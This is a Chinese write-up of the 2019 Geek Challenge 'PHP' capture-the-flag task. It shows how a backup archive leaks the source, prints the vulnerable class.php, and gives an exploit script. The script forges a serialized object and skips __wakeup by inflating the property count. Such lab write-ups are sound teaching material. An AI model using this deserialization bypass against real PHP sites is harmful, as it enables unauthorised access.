


# [极客大挑战 2019]PHP

## 考点

- 备份文件 www.zip

- php反序列化 wakeup绕过

## 解题

访问 `/www.zip` 下载源码

下载下来发现文件中有index.php，flag.php和class.php，直接提交flag.php是错误的

- index.php



- class.php

  ```php
  <?php
  include 'flag.php';
  error_reporting(0);
  class Name{
      private $username = 'nonono';
      private $password = 'yesyes';
  
      public function __construct($username,$password){
          $this->username = $username;
          $this->password = $password;
      }
  
      function __wakeup(){
          $this->username = 'guest';
      }
  
      function __destruct(){
          if ($this->password != 100) {
              echo "</br>NO!!!hacker!!!</br>";
              echo "You name is: ";
              echo $this->username;echo "</br>";
              echo "You password is: ";
              echo $this->password;echo "</br>";
              die();
          }
          if ($this->username === 'admin') {
              global $flag;
              echo $flag;
          }else{
              echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
              die();
          }
      }
  }
  ?>
  ```

- exp

  ```php
  <?php
  class Name
  {
      private $username = 'admin';
      private $password = '100';
  }
  $a = new Name();
  #进行url编码，防止%00对应的不可打印字符在复制时丢失
  echo urlencode(serialize($a));
  #未编码的情况
  //O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}
  //使用时将URL编码的结果中Name后面的2换成3或其他值
  ?>
  ```

